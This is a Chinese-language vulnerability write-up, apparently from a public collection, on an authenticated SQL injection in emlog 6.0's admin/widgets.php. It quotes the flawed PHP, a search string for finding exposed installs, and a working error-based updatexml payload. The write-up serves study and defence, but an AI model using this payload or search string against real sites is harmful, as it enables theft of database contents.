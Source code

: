 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## 网络测绘

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog

![image-20220518160707766](images/202205181607870.png)

存在漏洞的文件为 `admin/widgets.php`

![image-20220518160725472](images/202205181607539.png)

```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![image-20220518160743259](images/202205181607343.png)

```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![image-20220518160810251](images/202205181608308.png)

![image-20220518160826819](images/202205181608878.png)
